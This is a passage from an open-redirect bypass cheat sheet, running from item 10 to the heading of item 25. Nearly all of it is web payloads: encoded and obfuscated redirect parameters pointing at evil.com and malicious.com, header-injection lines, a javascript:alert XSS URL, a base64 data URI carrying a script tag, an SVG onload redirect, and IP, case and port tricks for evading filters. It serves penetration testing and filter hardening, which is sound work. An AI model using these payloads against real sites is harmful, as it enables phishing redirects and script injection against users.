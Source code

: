 ?redirect=example.com → ?redirect=evil.com%23example.com
10. Bypass Using a Symbol

?redirect=example.com → ?redirect=example.com/evil.com
11. Bypass Using URL Encoded Chinese Dot %E3%80%82

?redirect=example.com → ?redirect=evil.com%E3%80%82%23example.com
12. Bypass Using a Null Byte %0d or %0a

?redirect=/ → ?redirect=/%0d/evil.com
13. Encoded URL Redirects

https://example.com/redirect?url=http%3A%2F%2Fmalicious.com
14. Path-Based Redirects

https://example.com/redirect/http://malicious.com
15. Data URI Redirects

https://example.com/redirect?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnVGhpcyBpcyBhbiBhdHRhY2snKTwvc2NyaXB0Pg==
16. JavaScript Scheme Redirects

https://example.com/redirect?url=javascript:alert('XSS');//
17. Open Redirect via HTTP Header

Location: http://malicious.com
X-Forwarded-Host: evil.com
Refresh: 0; url=http://malicious.com
18. Path Traversal Hybrids

/redirect?url=/../../https://evil.com
19. Using svg paylaod

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg onload="window.location='https://evil.com/'" xmlns="http://www.w3.org/2000/svg"></svg>
20. Case-sensitive Variations

//GOOGLE.com/ → Bypass on case-sensitive filters
//GoOgLe.com/ → Random casing to evade blacklists
21. Trailing Special Characters

//google.com/#/ → Fragment to obscure final redirect
//google.com/;&/ → Extra characters after domain
//google.com/?id=123&// → Obfuscated with trailing ampersands
22. IP Address Variants

http://3232235777 → Decimal IP for 192.168.1.1
http://0xC0A80001 → Hexadecimal IP
http://192.168.1.1/ → Normal IP address
23. IPv6 Notation

http://[::1]/ → IPv6 loopback
http://[::ffff:192.168.1.1]/ → IPv4-mapped IPv6
24. Non-standard Ports

http://google.com:81 → Different port used
https://google.com:444 → May bypass filters by port
25. Unicode Obfuscation in Paths

